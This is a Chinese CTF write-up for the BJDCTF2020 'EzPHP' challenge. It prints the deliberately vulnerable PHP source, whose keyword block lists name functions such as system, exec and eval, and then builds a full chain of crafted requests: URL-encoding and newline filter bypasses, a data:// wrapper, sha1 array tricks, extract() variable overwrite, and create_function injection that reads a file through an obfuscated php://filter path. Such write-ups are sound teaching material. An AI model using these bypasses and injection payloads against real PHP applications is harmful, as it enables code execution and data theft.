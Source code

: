 # \[BJDCTF2020]EzPHP

## \[BJDCTF2020]EzPHP

## 考点

* base32
* `$_SERVER['QUERY_STRING']`不进行URL解码，用`URL编码`绕过
* `$_GET['debu']`要是aqua\_is\_cute但又不能是aqua\_is\_cute，用`%0a`换行符绕过
* `$_REQUEST`中参数值不能出现字母，<mark style="color:orange;">`$_REQUEST`</mark><mark style="color:orange;">是优先读取POST传参再读取GET传参，可以先POST再GET</mark>
* `file_get_contents($file)`一般配合`php://input`，还可以配合`data://text/plain,debu_debu_aqua`
* `$code('', $arg);`对应`create_function`
* 代码执行可以看一下`get_defined_vars()`

## wp

F12给了一段密文`GFXEIM3YFZYGQ4A=`

目测是base家族的，64，32，16等等试一下，发现是base32，解码是`1nD3x.php`

给了源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

一点一点看，`$_SERVER['QUERY_STRING']`是get方式传入的内容，它不会进行URL解码，可以用URL编码可以绕过这个限制

然后`$_GET['file']`不能有`http(s)`，`$_GET['debu']`要是`aqua_is_cute`，这个可以用换行符绕过

`?deb%75=aq%75a_is_c%75te%0a&file=a`

![](<../../.gitbook/assets/image (5).png>)



然后是\_REQUEST中参数值不能出现字母，\_REQUEST是优先读取POST传参再读取GET传参，可以先POST再GET

```
GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=a

POST file=1&debu=1
```

寄了，BUUOJ环境有问题，本地复现吧。访问`1nD3x.php?file=***`，明显应该到`Aqua is the cutest five-year-old child in the world!`那里的`die`的，但是得到的回显还是`fxck you! I hate English!`

接着是要满足`file_get_contents($file)`的结果为`debu_debu_aqua`，一般这种可以用`php://input`，但是这里已经有了POST的内容，可以换成data伪协议。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61
POST file=1&debu=1
```

然后是经典的绕HASH，`sha1($shana) === sha1($passwd) && $shana != $passwd`，直接传数组即可

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2

POST file=1&debu=1
```

然后看到`extract($_GET["flag"]);`，存在变量覆盖。最后一段代码是对`$code`和`$arg`进行操作，但是题目并不能直接传参，那就是要用变量覆盖进行传参。

然后`if(preg_match('/^[a-z0-9]*$/isD', $code)`是code中不能有字母数字，在后面一个正则过滤了很多关键字，这样`$arg`就不是很好绕过了

最后的`$code('', $arg);`是`create_function`，这个出现了很多次了。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(a);//



GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%76%61%72%5F%64%75%6D%70%28%61%29%3B%2F%2F
POST file=1&debu=1
```

![](<../../.gitbook/assets/image (23).png>)

成功输出，最后是怎么获取flag。代码执行没有过滤call\_user\_func，文件包含没有过滤require，目录扫描没有过滤DirectoryIterator

其实一开始想的是无参RCE和取反，后面看了wp一下，在get\_defined\_vars()中看到一个奇怪的变量`ffffffff11111114ggggg`，意思就是flag在`rea1fl4g.php` ，应该是文件读取了。

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

最后用取反绕过滤

```
<?php
echo urlencode(~'php://filter/read=convert.base64-encode/resource=rea1fl4g.php');

// %8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))
```

最后的payload

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%72%65%71%75%69%72%65%28%7E%28%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F%29%29%3B%2F%2F
POST file=1&debu=1
```

解码即可
